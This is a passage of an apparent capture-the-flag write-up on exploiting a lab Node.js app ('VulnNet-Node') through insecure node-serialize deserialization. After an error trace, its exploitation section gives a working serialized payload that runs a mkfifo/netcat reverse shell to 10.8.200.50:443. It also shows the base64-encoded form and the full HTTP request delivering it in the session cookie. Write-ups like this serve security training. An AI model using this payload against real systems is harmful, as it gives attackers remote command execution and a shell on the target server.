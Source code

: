 ```shell
<title>Error</title>
</head>
<body>
<pre>SyntaxError: Unexpected end of JSON input<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at Object.exports.unserialize (/home/www/VulnNet-Node/node_modules/node-serialize/lib/serialize.js:62:16)<br> &nbsp; &nbsp;at /home/www/VulnNet-Node/server.js:16:24<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/home/www/VulnNet-Node/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/www/VulnNet-Node/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /home/www/VulnNet-Node/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/home/www/VulnNet-Node/node_modules/express/lib/router/index.js:275:10)</pre>
</body>
</html>
```


## Exploitation


We can create a serialized object that contains a reverse shell, base64 encode it and then URL encode any special characters.

The serialized object should look like this:


```javascript
{"username":"_$$ND_FUNC$$_function (){require('child_process').exec(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.200.50 443 >/tmp/f\", function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Go in `Decoder` in Burp Suite and put the serialized object. Then click on `Encode as` and select `Base64` so the output should look like this:


```shell
eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYyhcInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8L2Jpbi9zaCAtaSAyPiYxfG5jIDEwLjguMjAwLjUwIDQ0MyA+L3RtcC9mXCIsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO30oKSJ9
```

Before putting the base64 encoded value in the Cookie, URL encode any special characters. In my case, only the `+` should become `%2b`.

The final request in order to get reverse shell should look like this:


```shell
GET / HTTP/1.1
Host: 10.10.213.208:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.213.208:8080/login
Cookie: session=eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYyhcInJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8L2Jpbi9zaCAtaSAyPiYxfG5jIDEwLjguMjAwLjUwIDQ0MyA%2bL3RtcC9mXCIsIGZ1bmN0aW9uKGVycm9yLCBzdGRvdXQsIHN0ZGVycikgeyBjb25zb2xlLmxvZyhzdGRvdXQpIH0pO30oKSJ9
Upgrade-Insecure-Requests: 1


```
